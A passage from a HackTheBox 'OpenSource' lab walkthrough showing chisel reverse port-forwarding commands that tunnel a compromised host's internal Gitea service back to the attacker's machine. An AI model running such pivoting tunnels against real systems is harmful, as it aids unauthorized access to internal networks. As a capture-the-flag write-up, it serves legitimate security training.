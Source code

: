 Now get all set up. Remember that the host is on the IP 172.17.0.1 by default on docker setups:

```bash
# On our attack machine
./chisel server --reverse --port 5455

# On the host
chmod +x chisel
./chisel client 10.10.14.2:5455 R:3000:172.17.0.1:3000
```

<p align="center">
  <img src="/images/walkthroughs/hackthebox/opensource/7_3_connected.png" width="90%"/>
</p>

Once is set up, let's check the website:

<p align="center">
  <img src="/images/walkthroughs/hackthebox/opensource/7_4_gittea.png" width="90%"/>
</p>
